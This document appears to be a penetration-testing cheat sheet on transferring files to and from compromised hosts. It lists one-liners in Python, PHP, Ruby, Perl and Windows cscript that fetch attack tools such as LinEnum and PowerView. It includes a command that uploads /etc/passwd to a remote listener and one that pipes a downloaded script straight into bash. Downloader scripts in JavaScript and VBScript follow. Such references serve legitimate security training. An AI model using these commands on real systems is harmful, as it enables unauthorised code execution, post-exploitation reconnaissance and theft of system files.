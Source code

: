 ### Transfering Files with Code

| **Command** | **Description** |
| --------------|-------------------|
| **Python** | |
| `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'` | Python 2 - Download |
| `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'` | Python 3 - Download |
| `python3 -m uploadserver` | Starting the Python uploadserver Module |
| `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'` | Uploading a File Using a Python One-liner |
| | |
| **PHP** | |
| `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | PHP Download with File_get_contents() |
| `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'` | PHP Download with Fopen() |
| `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' \| bash` | PHP Download a File and Pipe it to Bash |
| | |
| **Other Languages** | |
| `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'` | Ruby - Download a File |
| `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'` | Perl - Download a File |
| `cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1` | Download a File Using JavaScript and cscript.exe -CMD |

#### CSCRIPT.exe [JS]
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
#### OR [VBSCRIPT]

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
